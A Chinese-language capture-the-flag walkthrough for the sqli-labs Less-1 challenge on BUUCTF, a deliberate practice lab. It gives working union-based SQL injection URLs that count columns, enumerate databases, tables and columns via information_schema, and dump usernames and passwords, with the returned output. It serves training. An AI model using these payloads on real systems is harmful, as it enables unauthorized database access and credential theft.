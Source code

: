 ## sqli-libs

以下覆盖了基本的解法，如果遇到对应的题目，可以尝试下面解法。

[github](https://github.com/Audi-1/sqli-labs)

[BUUCTF](https://buuoj.cn/challenges#sqli-labs)

### Less-1 (GET - 基于错误的字符串注入)

1. 因为知道这里是有漏洞的，那就先猜字段数，这里传递 3 是正常的，传递 4 报错，因此字段数为 3.

```bash
http://d83b1fd5-8cf3-4432-8298-910dffdeaed0.node5.buuoj.cn/Less-1?id=1' order by 3 --+
```

2. 接下来使用联合查询，看看能不能回显信息.

```bash
http://d83b1fd5-8cf3-4432-8298-910dffdeaed0.node5.buuoj.cn/Less-1?id=1' and 1=2 union select 1,"哈哈",2--+
```

> and 1=2 表示让前面的语句失效

![less-1-1](./assets/sqli-libs/less-1-1.png)

3. 接下来可以进一步获取一些数据库信息。比如查找所有的数据库。

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+
```

回显结果如下

> Your Login name:ctftraining,information_schema,mysql,performance_schema,security,test

1. 查看数据库内的表名称

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 --+
```

> Your Login name:emails,referers,uagents,users

5. 查看`users`表的列名

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3 --+
```

> Your Login name:id,username,password,ip,time,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password

6. 查看用户名密码

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+
```

![less-1-2](./assets/sqli-libs/less-1-2.png)

这道题就解决了。